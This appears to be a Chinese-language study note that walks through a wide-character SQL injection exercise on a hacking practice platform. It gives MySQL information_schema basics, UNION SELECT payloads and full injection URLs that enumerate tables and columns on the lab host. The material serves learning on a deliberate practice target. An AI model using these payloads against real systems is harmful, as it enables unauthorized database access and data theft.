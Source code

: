 ## MySQL数据库常用知识


在MySQL中，数据库名存放在information_schema数据库下schemata表schema_name字段中；表名存放在information_schema数据库下tables表table_name字段中；字段名存放在information_schema数据库下columns表column_name字段中。


# 练习网站 [网络信息安全攻防学习平台](http://hackinglab.cn/index.php)

## 防注入

	利用宽字符将`'`注入

	猜测闭合字符：

		输入 `'`，报错；而输入`'#`未报错。
	判断列 order by 4

	判断显示位
	union all select 1,2,3,4


	查询语句
	union all select 1,user(),3,4  用户
	database()数据库
	version()版本


可以利用python的包来作相关处理，比如：
查看特殊字符url转义。
```
In [30]: import urllib
In [30]: urllib.quote('\'')
Out[30]: '%27'
In [31]: urllib.unquote('%23')
Out[31]: '#'
```

转换字符串为二进制并用十六进制表示
```
In [33]: import binascii

In [34]: binascii.hexlify('mydbs')
Out[34]: '6d79646273'
```

查数据库表
```
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1%df%27%20union%20select%201,concat(group_concat(distinct+table_name)),3%20%20from%20information_schema.tables%20where%20table_schema=0x6d79646273%23
```

	sae_user_sqli4

查表中对应的字段
```
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=1%df%27%20union%20select%201,concat(group_concat(distinct+column_name)),3%20%20from%20information_schema.columns%20where%20table_name=0x7361655f757365725f73716c6934%23
```
